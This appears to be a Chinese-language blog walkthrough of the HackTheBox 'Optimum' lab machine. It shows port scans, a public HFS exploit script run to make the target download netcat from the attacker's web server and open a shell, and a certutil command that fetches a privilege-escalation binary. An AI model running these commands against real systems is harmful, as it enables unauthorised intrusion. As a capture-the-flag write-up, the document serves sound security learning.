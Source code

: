 ```yaml
---
layout: post
title:  "HackTheBox >_ Optimum_8"
description: walkthrough
category: HackTheBox
---
```

# Optimum_8

![]({{ site.url }}/assets/Optimum_8.assets/20201124084540401_1840824772.png)

`rustscan 10.10.10.8 -b 924 -t 1500 --no-nmap`

![]({{ site.url }}/assets/Optimum_8.assets/20201124085120548_2092524322.png)

`nmap -sC -sV -Pn -p80 10.10.10.8`

![]({{ site.url }}/assets/Optimum_8.assets/20201124085407939_1864076582.png)

![]({{ site.url }}/assets/Optimum_8.assets/20201124085507797_2043671238.png)

39161.py
将本地地址端口修改为监听端口

![]({{ site.url }}/assets/Optimum_8.assets/20201124085659963_1129046948.png)

在工作目录准备nc，并建立80端口临时http服务。

```
cp /usr/share/windows-resources/binaries/nc.exe .
sudo php -S 0.0.0.0:80
```

执行漏洞利用脚本

`python 39161.py 10.10.10.8 80`

http服务会显示靶机下载nc的过程

![]({{ site.url }}/assets/Optimum_8.assets/20201124090742809_726550144.png)

在监听处获得shell并得到user

![]({{ site.url }}/assets/Optimum_8.assets/20201124090815544_536253366.png)

![]({{ site.url }}/assets/Optimum_8.assets/20201124102509338_129479809.png)

![]({{ site.url }}/assets/Optimum_8.assets/20201124101928914_1391500227.png)

![]({{ site.url }}/assets/Optimum_8.assets/20201124102046397_847399359.png)

`certutil -urlcache -split -f http://10.10.14.30/41020.exe`

![]({{ site.url }}/assets/Optimum_8.assets/20201124093653011_1968939550.png)


